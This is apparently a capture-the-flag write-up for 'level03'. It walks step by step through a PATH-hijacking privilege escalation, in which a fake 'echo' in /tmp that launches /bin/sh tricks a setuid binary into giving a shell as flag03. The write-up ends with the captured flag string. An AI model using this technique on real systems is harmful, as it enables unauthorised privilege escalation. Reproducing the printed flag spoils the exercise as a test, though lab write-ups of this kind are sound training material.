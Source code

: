# level03

It is possible to run almost any executable with elevated privileges in this exercise, I chose sh as it permits pretty much anything

1. get level03.c  (from an external device)

```sh
scp -P 4242 level03@<host>:level03.c level02.c
```

2. Decompile binary, see that it runs as flag03

```shell
/opt/retdec/bin/retdec-decompiler.py level03
```

3. Exploit env vars usage by changing $PATH

```shell
PATH=/tmp:$PATH
```

4. Create an exploit binary to be executed by the original binary

```shell
echo /bin/sh > /tmp/echo
```

```shell
chmod +x /tmp/echo
```

5. Execute the original binary and retrieve flag

```shell
./level03
```

6. (optional) prove that we operate as flag03

```shell
whoami
```

7. pwn the flag

```shell
getflag
```

gives flag: `qi0maab88jeaj46qoumi7maus`
